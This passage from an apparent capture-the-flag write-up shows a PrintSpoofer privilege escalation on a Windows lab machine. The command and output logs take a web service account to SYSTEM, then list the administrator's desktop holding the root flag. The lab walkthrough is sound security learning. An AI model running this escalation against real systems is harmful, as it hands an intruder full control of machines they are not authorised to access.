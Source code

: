 Running the command they specified did not work however.

`PrintSpoofer64.exe -i -c powershell`

```
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -i -c powershell
PrintSpoofer64.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[-] Operation failed or timed out.

c:\inetpub\wwwroot\nt4wrksv>whoami
whoami
iis apppool\defaultapppool
```

I was able to get this working by using **cmd** instead of **powershell**:

`PrintSpoofer64.exe -i -c cmd`

```
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

<br>

## Finishing things up

I take a look on the administrators desktop and the final flag is sitting there:

`dir \users\administrator\desktop`

```
C:\Windows\system32>dir \users\administrator\desktop
dir \users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\users\administrator\desktop

07/25/2020  07:24 AM    <DIR>          .
07/25/2020  07:24 AM    <DIR>          ..
07/25/2020  07:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,217,847,808 bytes free
```
